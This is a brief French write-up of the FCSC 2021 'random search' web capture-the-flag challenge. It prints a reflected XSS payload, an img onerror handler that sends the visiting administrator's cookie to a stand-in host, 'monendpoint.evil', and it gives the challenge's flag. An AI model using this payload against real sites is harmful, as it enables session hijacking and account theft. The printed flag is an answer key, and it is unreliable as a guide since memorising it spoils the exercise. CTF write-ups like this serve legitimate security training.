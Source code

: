 
https://hackropole.fr/fr/challenges/web/fcsc2021-web-random-search/
## Description

Pourrez-vous voler le cookie de l’administrateur qui visite les pages ?

## Write Up

En gros c'est une XSS : ```
``` html
http://localhost:8000/index.php?search=<img src=x onerror=window.location="http://monendpoint.evil/cookie=".concat(document.cookie)
```

Le flag est donc **FCSC{4e0451cc88a9a96e7e46947461382008d8c8f4304373b8907964675c27d7c633}**.